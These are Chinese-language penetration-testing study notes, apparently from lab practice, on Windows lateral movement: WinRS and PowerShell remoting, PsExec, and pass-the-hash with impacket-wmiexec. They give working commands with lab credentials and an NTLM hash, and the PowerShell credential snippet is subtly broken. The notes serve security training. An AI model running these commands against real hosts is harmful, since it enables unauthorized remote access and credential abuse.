 #### WinRM
和WMI能实现的功能一样，WinRM也可以远程管理主机，它通过http和https叫唤xml消息。使用5985进行加密的HTTPS连接
winRM在winRS等内置程序中实现。

WinRS条件：域用户需要是目标主机上管理员或远程管理用户组的一部分

使用
```
winRS只使用于域用户   -r是目标主机，-u -p是目标主机目标域用户
cmd> winRS -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
执行任意命令反弹shell到kali
###PowerShell还具有名为PowerShell远程的WinRM内置功能。可以通过New-PSSession来调用
kali ps>
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
$credential = New-Object System.Management.Automation.PSCredential;
New-PSSession -ComputerName 10.10.10.10 -Credential $credential

###会话交互
Enter-PSSession id值

```

### PsExec
PsExec是`https://docs.microsoft.com/en-us/sysinternals`套件中的一个工具

条件：后两个在winserver上默认开启  
目标机器的用户需要是本地管理员组的一部分；  
ADMIN$共享必须可用；    
文件和打印机共享必须打开。

过程：  
将psexecsvc.exe写到C:   
在远程主机上创建并生成一个服务  
将所请求的程序/命令作为psexecsvc.exe的子进程运行

利用
```
ps> ./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```


### Pass the Hash  (PtH)
PtH允许攻击者使用NTLM hash来进行身份认证。但仅仅是用于NTLM，不使用于Keeberos

原理：使用SERver Message Blook（SMB）协议连接到vic，使用NTLM进行身份验证

条件：  
开445   
需要本地管理员权限
ADMIN$共享必须可用；    
开win打文件和打印机共享功能

```
kali> /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
